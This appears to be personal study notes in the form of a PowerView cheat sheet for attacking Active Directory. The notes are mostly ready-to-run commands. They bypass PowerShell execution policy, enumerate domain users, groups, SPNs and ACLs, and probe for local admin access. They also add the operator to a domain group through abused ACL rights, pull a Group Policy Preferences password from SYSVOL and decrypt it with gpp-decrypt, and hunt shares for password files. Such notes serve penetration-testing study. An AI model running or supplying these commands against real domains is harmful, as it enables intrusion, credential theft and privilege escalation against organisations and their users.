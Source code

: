 # Using PowerView
`PowerView.ps1` is a powerful PowerShell script included in the PowerSploit framework, designed for Active Directory enumeration and exploitation. Below is an overview of commonly used commands and examples for `PowerView.ps1`.
**Importing PowerView**
```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
```
## Enumerating Domain Information
**Get-NetDomain**
```powershell
Get-NetDomain
```
**Get-NetForest**
```powershell
Get-NetForest
```
**Get-NetDomainController**
```powershell
Get-NetDomainController
```
**Get-NetUser**
List **all users** in the domain:
```powershell
Get-NetUser
```
- **To filter by a specific user:**
```powershell
Get-NetUser | Where-Object { $_.SamAccountName -eq "gamal" }
```
- **Querying users using select statement**
``` powershell
Get-NetUser | select cn
```
- **Querying users displaying pwdlastset and lastlogon**
``` powershell
Get-NetUser | select cn,pwdlastset,lastlogon
```
- Example 
``` powershell
Get-DomainUser -Identity gamal -Domain domain.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol
```
**Get-NetGroup**
**Retrieve all groups in the domain**
```powershell
Get-NetGroup
```
- **Find users in a specific group**
```powershell
Get-NetGroup | Where-Object { $_.Name -eq "Development Department" }
```
- **Enumerate a specific group member**
``` powershell
Get-NetGroup "Management Department" | select member
```
- **Recursive Group Membership**
``` powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```
- **enumerate domain trust mappings**
``` powershell
Get-DomainTrustMapping
```
- We can use the [Test-AdminAccess](https://powersploit.readthedocs.io/en/latest/Recon/Test-AdminAccess/) function to test for local admin access on either the current machine or a remote one.
- test if a user has administrative access to a local or remote host
``` powershell
Test-AdminAccess -ComputerName Comp-EA-MS01
```
## Enumerating Computers
**List all computers in the domain:**
```powershell
Get-NetComputer
```
**Displaying OS and hostname**
``` powershell
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```
**Filter by operating system:**
```powershell
Get-NetComputer -OperatingSystem "Windows Server*"
```
**Find-LocalAdminAccess**
- Scans the network in an attempt to determine if our current user has **administrative permissions** on any computers in the domain.:
```powershell
Find-LocalAdminAccess
```
## Enumeration Through Service Principal Names
- **Listing the SPN accounts in the domain**
``` powershell
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
- To enumerate SPNs in the domain, we have multiple options. In this case, we'll use setspn.exe, which is installed on Windows by default. We'll use -L to run against both servers and clients in the domain. 
- **Finding Users With SPN Set**
``` powershell
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```

**Listing SPN linked to a certain user account** 
``` powershell
setspn -L iis_service
```
![image](https://github.com/user-attachments/assets/368e7933-3e93-441f-83aa-7d03c8b7dba0)
## Enumerating **Object Permissions**
Here's a list of the most interesting
**GenericAll**: Full permissions on object
**GenericWrite**: Edit certain attributes on the object
**WriteOwner**: Change ownership of the object
**WriteDACL**: Edit ACE's applied to object
**AllExtendedRights**: Change password, reset password, etc.
**ForceChangePassword**: Password change for object
**Self (Self-Membership)**: Add ourselves to for example a group
The [Microsoft documentation](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-and-access-masks) lists other permissions and describes each in more detail.
#### Enumerate ACEs with PowerView
``` powershell
Get-ObjectAcl -Identity stephanie
```
we are primarily interested in those **highlighted**
![[Pasted image 20241224120822.png]]
``` powershell
Get-ObjectAcl -Identity UserName | select ObjectSID,ActiveDirectoryRights,SecurityIdentifier
```
The output lists two [_Security Identifiers_](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers) (SID), unique values that represent an object in AD.
#### Converting the ObjectISD into name
``` powershell
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```
#### Enumerate all objects the domain
generate clean and manageable output
``` powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```
Converting all SIDs that have GenericAll permission on the Management Group
``` powershell
"SID01","SID02","SID03","SID04" | Convert-SidToName
```
Using "net.exe" to add ourselves to domain group if you got ACL permisson
``` powershell
net group "Management Department" stephanie /add /domain
```
## Domain Share Query List shared folders across the network:
``` powershell
Find-DomainShare
```
Or we can use
```powershell
Invoke-ShareFinder
```

![[Pasted image 20241224143305.png]]
 [**SYSVOL**](https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx), as it may include files and folders that reside on the domain controller itself.
 ``` powershell
 ls \\dc1.corp.com\sysvol\corp.com\
```
- Investigate every folder
``` powershell
ls \\dc1.corp.com\sysvol\corp.com\Policies\
```
![[Pasted image 20241224143757.png]]
Checking contents of old-policy-backup.xml file
``` powershell
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```
![[Pasted image 20241224144802.png]]
XML file describes an old policy (helpful for learning more about the current policies) and an encrypted password for the local built-in Administrator account. The encrypted password could be extremely valuable for us.
system administrators often changed local workstation passwords through [_Group Policy Preferences_](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922(v=ws.11)) (GPP).
However, even though GPP-stored passwords are encrypted with AES-256, the private key for the encryption has been posted on [_MSDN_](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2). We can use this key to decrypt these encrypted passwords. In this case, we'll use the [**gpp-decrypt**](https://www.kali.org/tools/gpp-decrypt/) ruby script in Kali Linux that decrypts a given GPP encrypted string:
``` bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
## **Invoke-FileFinder**

Search for specific files across shared folders:

```powershell
Invoke-FileFinder -Include "passwords*.txt"
```
## **Get-NetGPO**

Retrieve all GPOs in the domain:

```powershell
Get-NetGPO
```

## **Get-NetGPOGroup**

Find GPOs linked to specific groups:

```powershell
Get-NetGPOGroup
```
## **Get-NetSession**

List active sessions on domain computers:

```powershell
Get-NetSession
```

## **Get-NetLoggedon**

Find users currently logged on to domain computers:

```powershell
Get-NetLoggedon
```


